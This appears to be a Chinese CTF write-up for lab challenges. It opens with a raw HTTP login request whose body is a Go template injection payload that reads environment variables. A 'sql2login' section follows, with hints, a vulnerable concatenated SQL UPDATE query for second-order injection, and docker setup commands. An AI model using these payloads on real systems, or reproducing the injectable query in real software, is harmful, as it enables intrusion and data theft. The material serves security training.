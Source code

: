 

```http
POST /login HTTP/1.1
Host: 10.244.0.254:28003
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

name={{.Eval "env"}}
```



### sql2login

SQL注入之二次注入。sqlilabs 24 关（中间）也是这个考点。考验刷sqlilabs的题量。

Hint1：看看index中的图，最下面有东西。

Hint2：sqlilabs第2x关。

Hint3：

```sql
"UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

运行部署：（cd进源码目录，会映射到9028端口）

```bash
docker-compose build && docker-compose up -d


快速构建：
docker build -t sql2login . && docker run -d --name=sql2login -p 9028:80 --rm sql2login

快速重启：
docker stop sql2login && docker rmi sql2login && docker build -t sql2login . && docker run -d --name=sql2login -p 9028:80 --rm sql2login
```

WP：

开局一张图。

![image-20240410062721081](https://tc-md.oss-cn-hangzhou.aliyuncs.com/wujie/image-20240410062721081.png)

这个故事告诉我们，要少看瑟图，眼睛不要盯着不该看的地方，要不然就会使得我们获得hint。

![image-20240410062835820](https://tc-md.oss-cn-hangzhou.aliyuncs.com/wujie/image-20240410062835820.png)
